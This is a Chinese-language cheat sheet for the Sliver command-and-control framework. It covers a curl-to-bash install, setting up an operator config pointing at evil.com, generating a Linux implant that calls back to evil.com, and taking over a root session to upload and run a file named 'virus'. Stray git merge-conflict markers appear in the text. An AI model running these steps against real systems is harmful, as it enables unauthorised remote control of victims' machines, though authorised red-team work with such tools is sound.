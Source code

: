 Adversary Emulation Framework.

## 1. Install

安装

```
┌──(nemo@debian)-[~]
└─$ curl -fsSL https://github.com/jadensalas469466/script/raw/main/sliver_install.sh | bash
```

## 2. Init

### 2.1. Server

开机自启

```
┌──(nemo@debian)-[~]
└─$ sudo systemctl enable --now sliver-server.service
```

开放端口用于建立通信

```
┌──(nemo@debian)-[~]
└─$ sudo ufw allow 31337
```

生成配置文件
=======
导出配置文件
```
┌──(nemo@debian)-[~]
└─$ sliver-server operator -n nemo -l evil.com -p 31337 -s ~/.sliver
```

<<<<<<< HEAD
开启多端控制

```
[server] sliver > multiplayer
```

### 2.2. Client

导入配置文件

```
┌──(nemo@debian)-[~]
└─$ sliver-client import ~/.sliver/nemo_evil.com.cfg
```

## 3. Usage

运行 Client

```
┌──(nemo@debian)-[~]
└─$ sliver-client
```

退出 Client

```
sliver > exit
```

查看已加入的控制器

```
[server] sliver > operators
```

生成 Implant

```
[server] sliver > generate -o linux -m evil.com:65135
```

监听 Implant

```
[server] sliver > mtls -l 65135
```

查看监听任务

```
[server] sliver > jobs
```

等待目标执行 Implant 后查看会话

```
[server] sliver > sessions

 ID         Transport   Remote Address        Hostname   Username   Operating System   Health
========== =========== ===================== ========== ========== ================== =========
 685a7144   mtls        example.com:32804   morpheus   root       linux/amd64        [ALIVE]
```

进入会话

```
[server] sliver > use  685a7144
```

断开会话

```
[server] sliver (implant) > close
```

上传本地文件到目标

```
[server] sliver (implant) > upload ./virus ./path
```

添加执行权限

```
[server] sliver (implant) > chmod ./virus 755
```

执行程序

```
[server] sliver (implant) > execute ./virus
```

---

References

- [sliver](https://github.com/BishopFox/sliver)


